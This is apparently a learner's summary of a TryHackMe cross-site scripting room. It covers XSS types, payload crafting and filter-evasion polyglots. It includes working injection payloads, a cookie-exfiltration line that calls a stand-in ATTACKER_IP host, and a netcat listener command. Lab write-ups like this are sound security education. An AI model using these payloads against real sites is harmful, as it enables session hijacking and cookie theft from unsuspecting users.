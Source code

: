 
# Intro to Cross-Site Scripting – TryHackMe

## Overview
This room explores the fundamentals and exploitation techniques of Cross-Site Scripting (XSS), a common web vulnerability that allows attackers to inject and execute malicious JavaScript in users' browsers. The content includes different XSS types, payload crafting, evasion techniques, and hands-on labs.

## 🧩 Key Concepts Covered

### XSS Payloads and Intentions
- Payloads are JavaScript code executed in the target's browser.
- Common intentions include:
  - **Proof of Concept** – `alert('XSS')`
  - **Session Stealing** – Send cookies to attacker server using `fetch()`
  - **Keylogging** – Capture and exfiltrate keystrokes
  - **Business Logic Abuse** – Call internal JS functions like `user.changeEmail()`

### Reflected XSS
- Occurs when user input in URL or headers is reflected in the page without sanitization.
- Example: `/page?error=<script>alert('XSS')</script>`
- Must test query strings, URL paths, and headers.

### Stored XSS
- Payload is saved in a database and rendered to other users (e.g., blog comments).
- Impact: Persistent attack vector, session hijacking, phishing.
- Test areas where user input is saved and then rendered (comments, profiles, listings).

### DOM-Based XSS
- The JavaScript code on the page itself introduces the vulnerability.
- Common sources: `window.location`, `document.referrer`, `location.hash`.
- Requires inspecting the site’s JS code and how it handles user-controlled values.

### Blind XSS
- Payload triggers on another user’s browser (e.g., admin viewing a support ticket).
- Needs external callback (e.g., `fetch('http://attacker/cookie=' + btoa(document.cookie))`).
- Use XSS Hunter tools or `nc -nlvp PORT` to capture exfiltrated data.

### Payload Crafting Techniques
- Escape context: Close tags or break attributes.
- Examples:
  - Input field: `"><script>alert('XSS')</script>`
  - Textarea: `</textarea><script>alert('XSS')</script>`
  - Script block: `';alert('XSS');//`
  - Image onload: `/img.jpg" onload="alert('XSS')`
- Use polyglots to bypass filters (e.g., `<sscriptcript>` becomes `<script>` after stripping).

### Hands-On XSS Labs
- **Levels 1–6** demonstrate XSS injection in:
  - Plain HTML
  - Input/textarea fields
  - Script blocks
  - Filtered environments
  - Attribute-based vectors
- Final level uses a polyglot that works across all previous challenges.

### Real-World Blind XSS Exploitation
- Ticket creation feature reflects content into an admin panel.
- Injected payload with `fetch()` to exfiltrate cookies to listener.
- Listener set with: `nc -nlvp 9001`
- Example payload: `</textarea><script>fetch('http://ATTACKER_IP:9001?cookie=' + btoa(document.cookie));</script>`

## 💡 Takeaways
- XSS vulnerabilities allow powerful attacks like session hijacking, phishing, and unauthorized actions.
- Crafting payloads depends heavily on context (HTML, attributes, JS blocks).
- DOM-based and Blind XSS are harder to detect and require advanced techniques.
- Filter evasion and polyglots are essential for bypassing input sanitization.

## ✅ Status
Room completed.
